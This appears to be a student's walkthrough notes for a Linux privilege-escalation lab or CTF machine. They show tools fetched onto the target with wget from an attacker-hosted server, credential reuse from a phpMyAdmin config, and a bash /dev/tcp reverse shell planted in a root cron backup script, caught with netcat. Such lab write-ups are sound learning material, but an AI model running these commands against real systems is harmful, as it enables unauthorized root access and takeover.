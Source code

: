 - After gaining access to the target machine, we are going to escalate our privilege to root, for that we will be using a tool called 'linpeas'
	- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- This tool helps to check in linux machine to find a possibility for privilege escalation
- We copying the linpeas.sh file from the github, we will placing the file in a folder, easier to transfter the file to the target machine.
- Once we have the file, we will hosting a server in the folder, we have the file using python
	- `python3 -m http.server 80`
- Once we have server up, we can go back to the shell we have opened from target machine, navigate to the tmp folder use the command.
	- `wget http://{ip-address}/linpeas.sh`
	- This downloads the linpeas file to the target machine.
- Once we have the exploit code in the target machine, we need to make the file executable using the below command:
	- `chmod +x linpeas.sh`
- Once done, execute the file `./linpeas.sh`, this will provide a lot of information regarding the privilege escalation.
- After running, the PE exploit in the target machine, we observe that, we observed a sql username and password used in the phpmyadmin config file, which can be used to login to the database 
- We have observed, that we have a different user who has admin privileges using the `cat /etc/passwd`
- Using the SQL password, we received from the linpeas.sh exploit, we will try to ssh to the target machine with the newly found admin privileged user.
- After opening a SSH with the username and password we observed in the php config, we have observed that a backup script is running with the help of a cron job, with escalated privilege, so using the backup script, we will try to gain root access to the machine
- We have use `crontab -l` to check if there are any cron jobs running for the user
	- `crontab -u root -l` to check if any cron job running for the user provided 
- We can also check if there is any system dtimers and see if we have any script running for the backup
	- Using `systemctl list-timers`
- To check, all of the process running on the machine, we can use a tool called 'pspy', download it from github (https://github.com/DominicBreuker/pspy) and place it in the transfers folder of the attacker machine and same as earlier, go to the target's  ssh and go to the tmp and use the wget to grab the file using server running.
	- `wget http://{ip-address}/pspy64`
	- After that provide the execute permission with the chmod command.
		- `chmod +x pspy64`
		- Execute the file using `./pspy64`
	- This will show, all of the process running in the target machine and as thought we have a cron job running with escalated privilege, is executing the backup script
- We will be using this to our advantage, to gain root privileged access
	- We will be using  a BASH script one liner for the reverse shell from the cheat sheet (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- We will be updating the one liner `bash -i >& /dev/tcp/{ip-address}/8081 0>&1` into the backup.sh script. {Ip-address} is attacker machine ip-address
	- We can give any port as required and once we have updated the script, in attacker machine, we will be listening for the port 8081, using the netcat command:
		- `nc -nvlp 8081`
	- Once the cron job runs the backup.sh script, we will be provided with shell access from the target machine with root privileged access using reverse shell exploit.
